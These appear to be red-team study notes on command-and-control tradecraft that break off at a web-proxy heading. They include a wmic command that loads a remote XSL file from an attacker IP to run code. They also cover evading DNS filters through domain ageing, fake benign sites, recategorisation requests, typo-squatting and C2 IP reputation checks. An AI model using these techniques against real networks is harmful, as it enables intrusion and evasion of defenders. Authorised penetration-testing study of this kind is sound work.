 ```bat
wmic process get brief /format:"http://192.168.119.120/test.xsl"
```

# Bypassing Network Filters

## DNS Filters

`www.internetbadguys.com`

[IPVoid](https://www.ipvoid.com/dns-reputation/)

[VirusTotal](https://www.virustotal.com/gui/home/search)

[OpenDNS](https://community.opendns.com/domaintagging/search/)

Switch to an OpenDNS server

```bash
sudo bash -c "echo nameserver 208.67.222.222 > /etc/resolv.conf"
```

Register a new domain: It may be categorized as a **Newly Seen Domain** => detrimental to the reputation score, since malware authors often use brand new domains.

Domains in this category are often **< 1 week old** and are relatively unused, lacking inquiries and traffic.

=> Collect domain names in advance and generate lookups and traffic well in advance of an engagement.

Make sure its **domain category** matches what the client allows. E.g., the "webmail" classification is often disallowed given the increased risk of downloaded malware.

Pre-populate a web site on our domain with seemingly harmless content (like a cooking blog) to earn a harmless category classification.

Subscribe to **domain categorization services** (like OpenDNS) to submit our own domain classifications. Even if our domain has been categorized as malicious, we can easily host a legitimate-looking website on the domain and request re-categorization.

Submit the domain for a community review if voting is not available or if we would like to suggest a different category.
 
Make the domain name itself appear legitimate: **typo-squatting**

Be aware of the status of the **IP address** of our C2 server. If the IP has been flagged as malicious, some defensive solutions may block the traffic. This is especially common on **shared hosting sites** in which one IP address hosts multiple websites. If one site on the shared host ever contained a browser exploit or was ever used in a watering hole malware campaign, the shared host may be flagged. Subsequently, every host that shares that IP may be flagged as well.

Use a variety of lookup tools, like Virustotal and IPVoid sites to check the status of our C2 IP address before an engagement.

Have several domains prepared in advance so we can swap them out as needed.

## Web Proxies
